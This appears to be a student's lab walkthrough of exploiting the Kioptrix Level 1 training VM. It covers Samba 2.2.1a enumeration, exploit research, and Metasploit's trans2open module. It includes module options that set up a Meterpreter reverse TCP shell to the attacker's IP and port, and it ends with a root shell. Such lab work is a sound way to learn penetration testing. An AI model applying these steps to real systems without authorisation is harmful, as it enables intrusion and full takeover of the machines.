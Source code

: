 # Exploit SMB

## Exploit Kioptrix Level 1

### Attacking SMB

From Enumeration:

- Port 139 (SMB)
- 139/tcp open netbios-ssn Samba smbd (workgroup: MYGROUP)
- Unix (Samba 2.2.1a)

Research:

- Google search for Samba 2.2.1a exploit
- Exploit DB:
  - [Exploit 10](https://www.exploit-db.com/exploits/10)
  - [Exploit 7](https://www.exploit-db.com/exploits/7)
- Rapid7 (Metasploit):
  - [Rapid7 Exploit - Linux/Samba/Trans2open](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/)

Note: The exploit targets a buffer overflow vulnerability found in Samba versions 2.2.0 to 2.2.8. It specifically exploits x86 Linux systems that do not have the "noexec stack" option set. Please note that some older versions of RedHat may not be vulnerable if they do not allow anonymous access to IPC. Confirm whether anonymous access to IPC is available.

---

#### Victim Information

- Victim IP: 192.168.247.129
- Attacker IP: 192.168.247.128

---
---
SEARCHSPLOIT <query>

searchsploit samba 2.2

![Image](image.png)

Probable a 'trans2open' attack

BOOT UP METASPLOIT

Search for 'trans2open' inside Metasploit. During enumeration, a Rapid7 link was identified.

![Image](image 2.png)

During enumeration, it was identified that the system was running RedHat, indicating a Linux system. Choose option 1 for Linux x86.

View options.

Set RHOSTS (victim IP).

Check if the IP was set.


Module options (exploit/linux/samba/trans2open):

Name              Current Setting  Required  Description
----              ---------------  --------  -----------
RHOSTS            192.168.247.129  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
RPORT             139              yes       The target port (TCP)

Payload options (linux/x86/meterpreter/reverse_tcp):

Name              Current Setting  Required  Description
----              ---------------  --------  -----------
LHOST             192.168.247.128  yes       The listen address (an interface may be specified)
LPORT             4444             yes       The listen port

Exploit target:

Id  Name
--  ----
0   Samba 2.2.x - Bruteforce

NOTE >>> Default meterpreter ports will probably get picked up...

Run or exploit

![Image](image 3.png)

Sessions dying. Time to cancel and check options.

Second time checking options after payload did not work. Meterpreter offers payload options.

![Image](image 4.png)

Current payload is staged. See the ///

![Image](image 5.png)

Change payload to non-staged. Check with options.

Exploit!

![Image](image 6.png)

Reverse shell with root access!!!!







